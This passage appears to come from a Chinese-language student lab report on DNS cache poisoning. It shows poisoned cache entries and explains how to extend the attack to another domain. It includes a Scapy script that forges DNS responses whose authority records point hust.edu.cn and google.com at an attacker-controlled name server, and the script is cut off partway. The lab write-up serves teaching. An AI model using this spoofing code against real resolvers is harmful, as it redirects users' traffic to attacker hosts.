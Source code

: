 ```shell
; answer
ns1.hust.edu.cn.	11364	A	172.18.0.1
; answer
ns2.hust.edu.cn.	11364	A	200.10.3.27
; authanswer
www.hust.edu.cn.	11350	A	172.18.0.1
```

![1.5.8.DNS缓存](https://raw.githubusercontent.com/BIIIANG/pic/main/202205012204968.png)

- 使用`Wireshark`获得的数据包见`1.5.3-针对授权区域部分(开启伪造域名服务器).pcapng`，不再赘述。

## 1.6 `DNS`缓存中毒：针对另一个域

### 1.6.1 攻击原理

在上一次攻击中，我们成功使本地`DNS`服务器缓存中毒，因此`ns1.hust.edu.cn`和`ns2.hust.edu.cn`成为`hust.edu.cn`域的名称服务器。受到这一成功的启发，我们希望将其影响扩展到其他域。也就是说，在由`www.hust.edu.cn`查询触发的欺骗性响应中，我们希望在 授权部分添加其他条目，使得`ns1.hust.edu.cn`也可用作`google.com`的名称服务器。

### 1.6.2 攻击过程

- 攻击程序仅在`local_dns_poisoning_attack_auth.py`的基础上作出一处修改，即在`www.hust.edu.cn`的伪造响应中添加一条授权记录，得到`local_dns_poisoning_attack_another_domain.py`：

```python
#!/usr/bin/python3

from scapy.all import *

def spoof_dns(pkt):
    # Only filter the A query
    if (DNS not in pkt or pkt[DNS].qd.qtype != 1):
    	return

    # Swap the source and destination IP address and port number
    IPpkt = IP(dst=pkt[IP].src, src=pkt[IP].dst)
    UDPpkt = UDP(dport=pkt[UDP].sport, sport=53)

    if ('www.hust.edu.cn' in pkt[DNS].qd.qname.decode('utf-8')):
        # The Answer Section
        Anssec = DNSRR(rrname=pkt[DNS].qd.qname, type='A', 
        	ttl=11803, rdata='172.18.0.1')

        # The Authority Section
        NSsec1 = DNSRR(rrname='hust.edu.cn', type='NS', 
        	ttl=11803, rdata='ns1.hust.edu.cn')
        NSsec2 = DNSRR(rrname='hust.edu.cn', type='NS', 
        	ttl=11803, rdata='ns2.hust.edu.cn')
        NSsec3 = DNSRR(rrname='google.com', type='NS', 
            ttl=11803, rdata='ns1.hust.edu.cn')

        # Construct the DNS packet
        DNSpkt = DNS(id=pkt[DNS].id, qd=pkt[DNS].qd, aa=1, 
        	rd=0, qr=1, qdcount=1, ancount=1, nscount=3, 
            arcount=0, an=Anssec, ns=NSsec1/NSsec2/NSsec3)
        
        # Construct the entire IP packet and send it out
        spoofpkt = IPpkt/UDPpkt/DNSpkt
        send(spoofpkt)
    elif ('ns1.hust.edu.cn' in pkt[DNS].qd.qname.decode('utf-8')):
        # The Answer Section
        Anssec = DNSRR(rrname=pkt[DNS].qd.qname, type='A', 
        	ttl=11803, rdata='172.18.0.1')
```